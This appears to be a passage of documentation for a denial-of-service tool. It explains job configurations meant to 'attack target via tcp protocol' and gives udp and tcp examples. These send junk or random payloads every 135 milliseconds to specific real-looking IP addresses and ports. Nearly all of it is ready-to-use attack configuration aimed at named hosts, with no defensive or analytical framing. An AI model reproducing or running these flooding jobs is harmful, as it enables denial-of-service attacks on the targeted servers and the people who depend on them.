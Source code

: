
### Examples
```json
 {
      "type": "udp",
      "args": {
        "address": "80.87.198.26:53",
        "interval_ms": 135,
        "body": "lasdhgk;jasngjkla;sdbngjkalnerjasndkgjbadsgjklabrgjkbsandkjgbasklebgjaskbdgaskljdgbaslhkdg"
      }
 }
```
```json
 {
      "type": "udp",
      "args": {
        "address": "80.87.198.26:53",
        "interval_ms": 135,
        "body": "{{- random_payload 100 -}}"
      }
}
```


# TCP JOB

Use to attack target via tcp protocol. 

`"args.address"` in format `ip:port` or `hostname:port`

**Structure of TCP Job**
```json
{
      "type": "tcp",
      "args": {
        "address": "178.248.236.218:77",
        "interval_ms": 135,
        "body": "lasdhgk;jasngjkla;sdbngjkalnerjasndkgjbadsgjklabrgjkbsandkjgbasklebgjaskbdgaskljdgbaslhkdg"
      }
}
```


### Examples
```json
{
      "type": "tcp",
      "args": {
        "address": "178.248.236.218:80",
        "interval_ms": 135,
        "body": "lasdhgk;jasngjkla;sdbngjkalnerjasndkgjbadsgjklabrgjkbsandkjgbasklebgjaskbdgaskljdgbaslhkdg"
      }
    }
```
```json
{
      "type": "tcp",
      "args": {
        "address": "178.248.236.218:77",
        "interval_ms": 135,
        "body": "{{- random_payload 100 -}}"
      }
}
```